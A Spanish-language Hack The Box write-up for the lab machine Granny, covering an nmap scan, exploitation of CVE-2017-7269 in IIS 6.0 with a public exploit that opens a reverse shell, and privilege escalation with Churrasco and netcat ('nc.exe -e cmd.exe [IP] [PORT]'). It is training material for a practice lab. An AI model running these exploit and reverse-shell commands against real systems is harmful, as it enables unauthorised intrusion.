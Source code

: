 # 🏳 Granny

<figure><img src="../../../../.gitbook/assets/e8a122e2d713a4fb4a180bb9ccd20248.png" alt=""><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/14">Granny</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.10.15</td><td></td></tr><tr><td>Sistema simulado: </td><td>Windows Server 2003</td><td></td></tr><tr><td>Servicio vulnerado: </td><td>Microsoft-IIS 6.0</td><td></td></tr><tr><td>CVEs:</td><td><a href="https://nvd.nist.gov/vuln/detail/cve-2017-7269">CVE 2017-7269</a></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos el trabajo con la máquina Granny elaborando un escaneo de todos los puertos de la máquina mediante nmap como es habitual.&#x20;

<figure><img src="../../../../.gitbook/assets/1 (19).png" alt=""><figcaption></figcaption></figure>

Como podemos ver está aparentemente solo funcionando el puerto 80. Vamos a acceder a la web para ver ¿Que está montado en la máquina?.

<figure><img src="../../../../.gitbook/assets/2 (11).png" alt=""><figcaption></figcaption></figure>

### 2. Explotación

Vemos que es un portal que está aparentemente bajo construcción montado en un Windows Server 2003. En este punto empezamos a buscar si la versión IIS 6.0 tiene alguna vulnerabilidad activa y encontramos que el CVE 2017-7269 puede ser una buena opción. Existen varios exploits que pueden ayudarnos a explotar este CVE pero en nuestro caso vamos a usar el desarrollado por g0rx y que podemos encontrar en [su Github](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269). Recuerdo que podeís usar Searchexploit o buscar por internet para encontrar otras alternativas. Nos vamos a copiar su directorio en el escritorio y comenzamos.

```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
```

&#x20;El uso del exploit biene explicado dentro del mismo en el código, pero os lo dejaré explicado aquí. Basicamente ejecutaremos el archivo con python y usaremos la siguiente estructura para ejecutarlo:

```bash
python2 iis6webdav.py [TargetIP] [TargetPORT] [ReverseIP] [ReversePORT]
```

Al ejecutarlo ganaremos acceso a la máquina como el usuario Network Service

<figure><img src="../../../../.gitbook/assets/3 (15).png" alt=""><figcaption></figcaption></figure>

En este punto aprovecharemos para ejecutar systeminfo y obtener más información sobre la página.&#x20;

<figure><img src="../../../../.gitbook/assets/4 (12).png" alt=""><figcaption></figcaption></figure>

### 3. Escalada de privilegios Root

En este punto utilizaremos el script de Python [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) para ver cual es el exploit que podemos utilizar para explotar la máquina. Descubrimos que el exploit [Churrasco](https://github.com/Re4son/Churrasco) es el que podemos utilizar para explotar la máquina.&#x20;

{% hint style="danger" %}
&#x20;Al ejecutar el programa que se encuentra en el repositorio directamente yo he tenido muchos problemas, la respuesta que daba el sistema era "Program too big to fit in memory", como se muestra en la captura más abajo, esto lo he resuelto cuando descomprimido el archivo `Churrasco.zip` y he usado el `churrasco.exe` que venía en el zip.  Sin duda ha sido un buen quebradero de cabeza ya que nadie ha reportado, que yo haya podido encontrar, el error.&#x20;
{% endhint %}

<figure><img src="../../../../.gitbook/assets/5 (13).png" alt=""><figcaption></figcaption></figure>

Para ejecutarlo generaremos un servidor smb mediante el cual subiremos dos archivos a la máquina, un nc.exe y churrasco.exe .

<figure><img src="../../../../.gitbook/assets/6 (11).png" alt=""><figcaption></figcaption></figure>

En este punto deberemos de ejecutar el script churrasco indicando la dirección de neustro servicio Netcat a la escucha.&#x20;

```bash
\churrasco.exe -d "C:\WINDOWS\Temp\nc.exe -e cmd.exe [IP] [PORT]"
```

En nuestra máquina deberemos estar escuchando a la IP seleccionada.&#x20;

<figure><img src="../../../../.gitbook/assets/1 (16).png" alt=""><figcaption></figcaption></figure>

Ya como administradores podremos ver las flags del usuario Lakis y el usuario Root y dar por resuelto el reto.&#x20;

{% hint style="info" %}
Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)
{% endhint %}
